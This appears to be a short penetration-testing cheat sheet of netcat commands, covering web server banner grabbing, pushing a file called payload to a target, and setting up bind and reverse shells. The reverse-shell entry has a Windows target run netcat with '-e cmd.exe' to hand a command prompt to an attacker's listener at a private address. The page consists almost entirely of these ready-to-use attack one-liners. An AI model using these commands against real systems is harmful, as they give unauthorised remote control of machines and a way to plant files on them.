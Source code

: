 Web Server Info
----------------------

    nc 192.168.x.x 80

    HEAD / HTTP/1.0
    GET / HTTP/1.0

File Transfer
----------------------

    TARGET		nc -lvp xxxx > /root/payload
    ATTACKER	nc 192.168.TARGET xxxx </root/payload




Windows OS to Linux OS,  Bind Shell
--------------------------------------------

    Target		Linux   : nc -lvp 4444 
    Attacker	Windows : nc 192.168.4.145 4444

Linux OS to Windows OS, Reverse Shell
--------------------------------------------

    Attacker	Linux   : nc -lvp 4444
    Target		Windows : nc 192.168.4.145 4444 -e cmd.exe 


